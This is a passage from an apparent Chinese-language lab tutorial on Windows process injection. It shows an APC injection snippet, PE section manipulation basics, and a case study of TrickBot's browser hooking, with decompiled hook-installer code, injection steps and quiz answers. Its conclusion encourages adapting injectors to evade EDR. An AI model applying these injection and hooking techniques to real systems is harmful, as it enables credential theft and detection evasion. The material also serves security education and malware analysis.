    (PAPCFUNC)addressPointer, // APC function pointer to allocated memory defined by winnt
    pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
    (ULONG_PTR)NULL
    );
ResumeThread(
    pinfo.hThread // Handle to thread from PROCESS_INFORMATION structure
);
WaitForSingleObject(
    pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
    INFINITE // Wait infinitely until alerted
);
```

这种技术是线程执行的一个很好的替代方案，但最近在检测工程领域受到了关注，针对 APC 滥用正在实施特定陷阱。根据您面临的检测措施，这仍然可能是一个很好的选择。

### Section Manipulation - 段操纵

恶意软件研究中常见的一种技术是 PE（可移植可执行文件）和节（section）操纵。作为复习，PE 格式定义了 Windows 可执行文件的结构和格式。对于执行目的，我们主要关注节，特别是 .data 和 .text 节，表和指向节的指针也常用于执行数据。

我们不会深入讨论这些技术，因为它们很复杂，需要大量的技术细节，但我们会讨论它们的基本原理。

要开始任何节操纵技术，我们需要获取一个 PE 转储。获取 PE 转储通常通过将 DLL 或其他恶意文件输入到 xxd 中来完成。

在每种方法的核心，都是使用数学来遍历物理十六进制数据，然后将其转换为 PE 数据。

一些更常见的技术包括 RVA（相对虚拟地址）入口点解析、节映射和重定位表解析。

<hr></hr>

对于所有的注入技术来说，能够混合和匹配常见的研究方法是无穷无尽的。这为攻击者提供了大量选项，可以操纵恶意数据并执行它。

:::info Answer the questions below

使用什么协议在线程上下文中异步执行？

```plaintext
Asynchronous Procedure Call
```

用于对 APC 函数进行排队的 Windows API 调用是什么？

```plaintext
QueueUserAPC
```

void 函数指针可以在远程进程上使用吗？ (y/n)

```plaintext
N
```

:::

## Case Study in Browser Injection and Hooking - 浏览器注入和挂钩的案例研究

要深入了解进程注入的影响，我们可以观察 TrickBot 的 TTP（战术、技术和程序）。

最初的研究功劳归功于 SentinelLabs。

TrickBot 是一个众所周知的银行恶意软件，在金融犯罪中最近重新受到关注。我们将要观察的恶意软件的主要功能是浏览器挂钩。浏览器挂钩允许恶意软件挂钩一些有趣的 API 调用，可以用于拦截 / 窃取凭据。

为了开始我们的分析，让我们看看它们是如何针对浏览器的。从 SentinelLab 的逆向工程中，可以清楚地看到 `OpenProcess` 被用于获取常见浏览器路径的句柄；如下反汇编所示。

```cpp
push   eax
push   0
push   438h
call   ds:OpenProcess
mov    edi, eax
mov    [edp,hProcess], edi
test   edi, edi
jz     loc_100045EE
```

```cpp
push   offset Srch            ; "chrome.exe"
lea    eax, [ebp+pe.szExeFile]
...
mov    eax, ecx
push   offset aIexplore_exe   ; "iexplore.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aFirefox_exe   ; "firefox.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aMicrosoftedgec   ; "microsoftedgecp.exe"
...
```

当前的反射式注入的源代码不清楚，但 SentinelLabs 在下面概述了注入的基本程序流程。

1. 打开目标进程，使用 OpenProcess
2. 分配内存，使用 VirtualAllocEx
3. 将函数复制到分配的内存中，使用 WriteProcessMemory
4. 将 shellcode 复制到分配的内存中，使用 WriteProcessMemory
5. 刷新缓存以提交更改，使用 FlushInstructionCache
6. 创建一个远程线程，使用 RemoteThread
7. 恢复线程或回退到创建一个新的用户线程，使用 ResumeThread 或 RtlCreateUserThread

一旦注入，TrickBot 将调用其在步骤三中复制到内存中的挂钩安装程序功能。SentinelLabs 提供了安装程序功能的伪代码。

```cpp
relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
v8 = (unsigned __int8)original_function[5];
trampoline_lpvoid = *(void **)(original_function + 1);
jmp_32_bit_relative_offset_opcode = 0xE9u;        // "0xE9" -> opcode for a jump with a 32bit relative offset

if (VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect) )    // Set up the function for "PAGE_EXECUTE_READWRITE" w/ VirtualProtectEx
{
    v10 = *(_DWORD *)(original_function + 1);
    v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
    original_function[66] = 0xE9u;
    *(_DWORD *)(original_function + 0x43) = v10 + v11;
    write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5); // -> Manually write the hook
    VirtualProtectEx(        // Return to original protect state
        (HANDLE)0xFFFFFFFF,
        *(LPVOID *)(original_function + 1),
        (unsigned __int8)original_function[5],
        flOldProtect,
        &flOldProtect);
result = 1;
```

让我们逐步分解这段代码，一开始可能看起来有些吓人，但我们可以将其分解成我们在这个任务中学到的知识的较小部分。

我们看到的有趣代码的第一部分可以被识别为函数指针；你可能还记得这个来自之前任务中调用函数指针的内容。

```cpp
relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
v8 = (unsigned __int8)original_function[5];
trampoline_lpvoid = *(void **)(original_function + 1);
```

一旦函数指针被定义，恶意软件将使用它们来通过 `VirtualProtectEx` 修改函数的内存保护设置。

```cpp
if (VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect) )
```

此时，代码将进入恶意软件的有趣操作，利用函数指针钩取技术。并非必须深入了解此代码的技术要求。简言之，这段代码将重写钩取点，指向一个操作码跳转。

```cpp
v10 = *(_DWORD *)(original_function + 1);
v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
original_function[66] = 0xE9u;
*(_DWORD *)(original_function + 0x43) = v10 + v11;
write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5); // -> Manually write the hook
```

一旦被钩取，它将会将函数恢复至原始的内存保护设置。

```cpp
VirtualProtectEx(        // Return to original protect state
        (HANDLE)0xFFFFFFFF,
        *(LPVOID *)(original_function + 1),
        (unsigned __int8)original_function[5],
        flOldProtect,
        &flOldProtect);
```

<hr></hr>

这可能看起来仍然涉及大量代码和技术知识，这没关系！对于 TrickBot 的钩取函数的主要要点在于它会利用反射注入将自身注入到浏览器进程中，并钩取注入函数的 API 调用。

:::info Answer the questions below

TrickBot 使用什么替代 Windows API 调用来创建新的用户线程？

```plaintext
RtlCreateUserThread
```

TrickBot 采用的注入技术是否具有反射性？(y/n)

```plaintext
Y
```

手动编写钩子时使用了什么函数名？

```plaintext
write_hook_iter
```

:::

## Conclusion -

进程注入是一种通用技术，可有多种变体，也是滥用 Windows 内部机制最常见的情况之一。

需要注意的是，随着检测工程和监控的发展，注入技术也需要不断演进。本教程中展示的大多数技术将会被流行的商业 EDR 检测到，但你仍然可以轻松修改你的注入器，以适应红队和蓝队之间的猫鼠游戏。

在准备将注入技术应用到自己的工作或工具中时，建议将其作为较大工具的一小部分。混合和匹配注入的组件也可能非常有成效，试图使你的工具尽可能接近合法应用程序。

将这些技术加入你的规避工具箱，并继续实验，找出在你所处环境中最有效的方法。
